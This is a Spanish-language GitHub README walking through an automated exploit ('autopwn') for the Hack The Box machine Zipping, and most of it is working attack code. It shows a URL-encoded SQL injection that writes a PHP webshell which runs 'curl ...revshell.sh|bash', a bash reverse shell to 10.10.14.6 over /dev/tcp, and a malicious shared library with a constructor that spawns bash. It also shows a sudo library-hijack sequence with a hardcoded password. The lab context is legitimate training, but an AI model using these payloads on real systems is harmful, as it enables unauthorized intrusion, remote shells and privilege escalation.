

# Autopwn - Zipping

En caso de no haber realizado la máquina Zipping, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/Zipping) para comprender el autopwn.

<p align="center">
	
</p>

# Funcionamiento

El primer paso que realiza el script, es la creación del servicio HTTP con Python.

```python
http_server = subprocess.Popen(["python3","-m","http.server","80"],stdout=subprocess.DEVNULL,stderr=subprocess.DEVNULL)
```

```python3
if http_server.poll() is None:
		p1.success("Servicio iniciado con exito")
```

Después de iniciar el servicio HTTP, va a la función **makeRequest** en segundo plano para realizar el SQLi y los archivos necesarios, mientras, por otro lado, se pone en escucha por un puerto.

```python3
try:
		proc = multiprocessing.Process(target=makeRequest)
		proc.start()
	except Exception as e:
		log.error(str(e))
		cleanup(1)
		sys.exit(1)

with listen(lport, timeout=20) as shell:
```

Dentro de la función **makeRequest** crea los archivos **libcounter.c** y **revshell.sh** con su contenido abriendolos en modo escritura.


```python3
def makeRequest():
	contenido_so = '''#include <stdio.h>\n#include <stdlib.h>\n\nstatic void inject() __attribute__((constructor));
	\nvoid inject(){\n\tsystem(\"/bin/bash\");\n}'''

	with open('libcounter.c','w') as archivo:
		archivo.write(contenido_so)

	contenido_revshell= '''#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1'''


	with open('revshell.sh','w') as archivo:
		archivo.write(contenido_revshell)
```

Para luego crear el archivo enviando el SQLi y realizar la petición para recibir la ReverseShell.


```python3
main_url= "http://10.10.11.229/shop/index.php?page=product&id=3"

sqli = "%0A%27%3B%20select%20%27%3C%3Fphp%20system%28%22curl%20http%3A%2F%2F10.10.14.6%2Frevshell.sh%7Cbash%22%29%3B%20%3F%3E%27%20into%20outfile%20%27%2Fvar%2Flib%2Fmysql%2Frev.php%27--%20-3"

main_url2= "http://10.10.11.229/shop/index.php?page=/var/lib/mysql/rev"
```

```python3
r = requests.get(main_url+sqli)
time.sleep(1)
r = requests.get(main_url2)
```

Finalmente durante los 20 segundos, si recibe una petición, ejecuta de forma automática todos los pasos que se necesitan para realizar la escalada de privilegios.

```python3
with listen(lport, timeout=20) as shell:
		if shell.wait_for_connection():
			shell.sendline("cd /home/rektsu/".encode('utf-8'))
			shell.sendline("wget http://10.10.14.6/libcounter.c &>/dev/null".encode('utf-8'))
			shell.sendline("gcc -shared -fPIC -o libcounter.so libcounter.c && rm libcounter.c".encode('utf-8'))
			shell.sendline("mv libcounter.so .config/".encode('utf-8'))
			shell.sendline("sudo /usr/bin/stock".encode('utf-8'))
			time.sleep(1)
			shell.sendline("St0ckM4nager".encode('utf-8'))
			time.sleep(1)
			shell.interactive()
```

